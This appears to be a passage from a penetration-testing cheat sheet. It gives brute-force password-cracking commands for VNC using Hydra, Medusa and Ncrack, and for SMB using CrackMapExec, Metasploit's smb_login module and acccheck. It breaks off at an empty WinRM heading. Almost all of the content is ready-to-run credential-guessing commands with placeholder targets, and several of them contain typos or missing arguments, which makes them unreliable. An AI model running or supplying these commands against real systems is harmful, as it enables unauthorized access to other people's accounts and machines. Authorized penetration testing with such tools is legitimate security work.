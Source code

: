 #### VNC

\[1] With Hydra

```
hydra -L userlist.txt –P pass-list.txt -s port ip 
```

\[2] With medusa

```
​medusa -h ip –u root -P pass-list.txt –M 
```

\[3] With ncrack

```
ncrack -V --user root -P pass-list.txt ip:port
```

#### SMB

\[1] With crackmapexec

```
root@kali:Crackmapexec smb -I [ip] -u [username list or single username] -p [password list – or single password]
```

\[2] With \[Metasploit] Module use

```
auxiliary/scanner/smb/smb_login
```

```
#msf5 > use auxiliary/scanner/smb/smb_login                                                                    
#msf5 auxiliary(scanner/smb/smb_login) > set pass_file wordlist                                 
#pass_file => wordlist

#msf5 auxiliary(scanner/smb/smb_login) > set USER_file users.txt 
#USER_file => users.txt 

#msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS domain.com                                                                    
#RHOSTS => domain.com 

#msf5 auxiliary(scanner/smb/smb_login) >    
#msf5 auxiliary(scanner/smb/smb_login) > run
```

\[3] With acccheck

```
acccheck -v -t IP -u username -P path-to-wordlist
```

#### Port 5985 Windows Remote Management Cracking (winrm)
